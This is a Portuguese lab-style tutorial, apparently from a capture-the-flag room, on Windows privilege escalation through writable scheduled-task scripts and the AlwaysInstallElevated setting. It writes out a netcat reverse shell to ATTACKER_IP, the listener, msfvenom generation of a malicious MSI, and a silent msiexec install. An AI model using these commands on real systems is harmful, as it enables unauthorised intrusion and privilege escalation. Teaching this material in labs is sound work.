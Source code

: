 ```yaml
---
tags:
  - EXPLOITATION
  - Windows
---
```

# Tarefas programadas

Ao examinar as tarefas agendadas no sistema de destino, você poderá ver uma tarefa agendada que perdeu seu binário ou está usando um binário que pode ser modificado.

As tarefas agendadas podem ser listadas na linha de comando usando o comando schtasks sem nenhuma opção. Para obter informações detalhadas sobre qualquer um dos serviços, você pode usar um comando como o seguinte:

```powershell
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```

Você obterá muitas informações sobre a tarefa, mas o que importa para nós é o parâmetro "Task to Run", que indica o que é executado pela tarefa agendada, e o parâmetro "Run As User", que mostra o usuário que será usado para executar a tarefa.

Se o nosso usuário atual puder modificar ou sobrescrever o executável "Task to Run", poderemos controlar o que é executado pelo usuário taskusr1, resultando em um simples escalonamento de privilégios. Para verificar as permissões de arquivo no executável, usamos o `icacls`:

```powershell
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

Como pode ser visto no resultado, o grupo BUILTIN\Users tem acesso total (F) ao binário da tarefa. Isso significa que podemos modificar o arquivo .bat e inserir qualquer carga útil que desejarmos. Para sua conveniência, o nc64.exe pode ser encontrado em C:\tools. Vamos alterar o arquivo bat para gerar um shell reverso:

```powershell
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

Em seguida, iniciamos um ouvinte na máquina do atacante na mesma porta que indicamos em nosso shell reverso:

```shell
nc -lvp 4444
```

Na próxima vez que a tarefa agendada for executada, você deverá receber o shell reverso com privilégios de taskusr1. Embora você provavelmente não consiga iniciar a tarefa em um cenário real e tenha que esperar que a tarefa agendada seja acionada, fornecemos ao seu usuário permissões para iniciar a tarefa manualmente para economizar tempo. Podemos executar a tarefa com o seguinte comando:

```powershell
C:\> schtasks /run /tn vulntask
```

E você receberá o shell reverso com privilégios de taskusr1, conforme esperado:

```powershell
user@attackerpc$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\taskusr1
```

# AlwaysInstallElevated

Os arquivos do instalador do Windows (também conhecidos como arquivos .msi) são usados para instalar aplicativos no sistema. Normalmente, eles são executados com o nível de privilégio do usuário que os inicia. No entanto, eles podem ser configurados para serem executados com privilégios mais altos a partir de qualquer conta de usuário (mesmo as sem privilégios). Isso poderia nos permitir gerar um arquivo MSI malicioso que seria executado com privilégios de administrador.

Observação: o método AlwaysInstallElevated não funcionará no computador desta sala e foi incluído apenas como informação.

Esse método requer a definição de dois valores de registro. Você pode consultá-los na linha de comando usando os comandos abaixo.

```powershell
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Para poder explorar essa vulnerabilidade, ambos devem ser definidos. Caso contrário, a exploração não será possível. Se estiverem definidos, você poderá gerar um arquivo .msi malicioso usando o msfvenom, conforme mostrado abaixo:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.79.220 LPORT=LOCAL_PORT -f msi -o malicious.msi
```

Como esse é um shell reverso, você também deve executar o módulo Metasploit Handler configurado de acordo. Depois de transferir o arquivo que criou, você pode executar o instalador com o comando abaixo e receber o shell reverso:

```powershell
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```